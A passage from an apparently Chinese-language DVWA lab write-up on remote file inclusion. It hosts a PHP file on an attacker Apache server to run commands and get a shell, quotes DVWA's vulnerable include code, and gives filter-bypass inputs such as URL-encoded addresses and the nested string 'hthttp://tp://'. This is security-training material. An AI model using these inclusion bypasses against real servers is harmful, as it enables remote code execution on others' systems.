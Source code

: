 查看NC，发现收到了连接请求：

![img](/blog.github.io/images/1312707-20181122144141057-1872866535.png)

 

nc只是获得了连接请求，实际没用

下面展示实际使用方式

利用Kali本机的Apache服务

到/var/www/html目录下，新建文本 1.txt，写入上边的php代码（或者搞个木马脚本都行，这里为了方便）

![img](/blog.github.io/images/1312707-20181122150243793-1463425658.png)

 

保存之后开启Apache服务

![img](/blog.github.io/images/1312707-20181122150430950-1173938752.png)

 

然后测试：

![img](/blog.github.io/images/1312707-20181122150717616-874695890.png) 

 

成功执行了ls命令

到这一步就相当于拿到了shell

 

最后：

我们可以查看DVWA这里的远程文件包含的源码：

LOW级别：直接获取文件名

```
 <?php

    $file = $_GET['page']; //The page we wish to display 

?> 
```

 

MEDIUM级别：过滤特殊字符，导致无法远程文件包含

解决方法：编码

比如http://192.168.163.132======>%68%74%74%70%3a%2f%2f192.168.163.132

如果失败，就可以只针对http://中的某个字符，比如/进行编码

如果还是失败，可以进行一种巧妙的方法

**非常经典的关键字绕过方法：**

**hthttp://tp://192.168.163.132**
